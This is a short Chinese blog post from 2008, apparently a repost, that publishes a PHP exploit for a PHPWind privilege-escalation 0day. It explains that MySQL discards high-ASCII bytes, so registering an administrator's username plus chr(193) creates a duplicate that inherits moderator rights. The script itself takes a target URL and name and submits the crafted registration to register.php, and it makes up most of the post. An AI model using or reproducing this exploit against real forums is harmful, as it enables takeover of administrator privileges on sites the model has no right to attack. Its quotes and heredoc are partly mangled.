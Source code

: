 ```yaml
---
title: phpwind管理权限泄露漏洞利用程序PHP版
description: 漏洞原因是Mysql会舍弃没有用处的ASCII129-255，搜了资料也没有找到为什么，PhpWind最大失误不是程序，而是没有把username设为唯一。可以构造一个和某个管理人员名字一样的ID再加上一个无效的ASCII码进行注册，表中会出现二个一样的用户名，而forums.forumadmin字段里存的用户名，这样就可获得全部的前台权限。使用PHP构造的测试代码。
date: 2008-06-03 09:24:16
category: 漏洞信息
tags: ['PHPWind', '0day', '漏洞信息', 'PHP', 'exploit']
post_id: 510
alias: phpwind-usertoattack-0day-PHP-exploit
ViewNums: 5674
---
```


[夜火](/blog/)这2天漏洞真多啊，昨天刚发了[phpwind 0day 管理权限泄露漏洞 + exploit 利用程序](/blog/phpwind-usertoattack-0day-exploit "phpwind 0day 管理权限泄露漏洞 + exploit 利用程序"，里面给的是python的[exploit](/tags/exploit)，今天来了个PHP的

[漏洞](/tags/%E6%BC%8F%E6%B4%9E%E4%BF%A1%E6%81%AF)原因是Mysql会舍弃没有用处的ASCII129-255，搜了资料也没有找到为什么，[PhpWind](/tags/PHPWind)最大失误不是程序，而是没有把username设为唯一。

可以构造一个和某个管理人员名字一样的ID再加上一个无效的ASCII码进行注册，表中会出现二个一样的用户名，而forums.forumadmin字段里存的用户名，这样就可获得全部的前台权限。

使用[PHP](/tags/PHP)构造的测试代码。
![phpwind管理权限泄露漏洞利用程序PHP版](http://pic.yupoo.com/sunlei/113935a72c28/w60rcnfj.jpg)

`<?php
if (empty($_GET['sub'])) {
    print <<<EOT method="get" action="" <form>
<INPUT name=url>
<INPUT name=regname>
<INPUT type=submit value=提交 name=sub>`

`EOT;
} else {
    extract($_GET);
    $regname .= chr(193);
    $data = array(
        ‘regname’ => $regname,
        ‘regpwd’ => 147852,
        ‘regpwdrepeat’ => 147852,
        ‘regemail’ => ‘llll@Ll.com’,
        'regemailtoall’ => 1,
        ’step’ => 2
    );`

`$url .= ‘/register.php’;
    $includePath = ini_get(’include_path’);
    $includePath .=’;D:wwwpear’;
    ini_set(’include_path’, $includePath);
    include(’HTTP/Client.php’);
    $http = new HTTP_Client();
    var_dump($http-&gt;post($url, $data));
}`

作者：yuehei
来源：yuehei 两点之间

